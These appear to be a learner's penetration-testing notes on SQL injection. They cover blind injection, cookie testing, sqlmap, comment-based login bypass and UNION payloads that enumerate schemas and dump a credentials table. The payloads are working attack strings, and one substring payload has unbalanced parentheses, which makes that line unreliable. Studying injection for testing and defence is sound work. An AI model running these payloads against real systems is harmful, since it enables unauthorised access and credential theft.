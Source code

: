 **Blind**
These are SQL injections that when executed, show no obvious clue to the user

**Cookies**
Try using SQLi in BurpSuite on these fields to see if the field is inject-able. Also note that you may not have to use a quote to escape a string, as integer cookies are integers and not strings. This will depend on the cookie type, so just be aware of the variable type.
![[../../Pasted image 20250515193009.png]]
![[../../Pasted image 20250515193029.png]]


**SQL-Map**
Save a HTTP Post request with the query as a .txt

```bash
sqlmap -r <HTTP post file>
```
**Substring**
Sometimes you can enumerate individual letters/digits with a query. Enumerating through you can detect version information, passwords, and other information.
```sql
' and substring(select version()), x, y) = 'a.b.c'#
```
**Comments**
In line comments `--` `#` 
Multi-line `/**/`
Auth bypass w. comments
```sql
admin'--
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';

admin')--
```
![[../../Pasted image 20250513110359.png]]

**Union**
1. Start by identifying the number of columns
2. Identify columns
Run through 1, -> 1, 2 and onward to identify number of columns
```sql
' UNION select 1,2,3,4-- -
```
```sql
ds'UNION SELECT 1, user(), 3, 4 -- - 
```
![[../../Pasted image 20250513125617.png]]

You can enumerate database info like this 
```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials' AND username = "newuser"-- -
```
**Files**
Identify DB user, then identify if you have FILE privileges. In theory, only DBA's should have FILE privileges
Try things with
```sql
SELECT USER()
```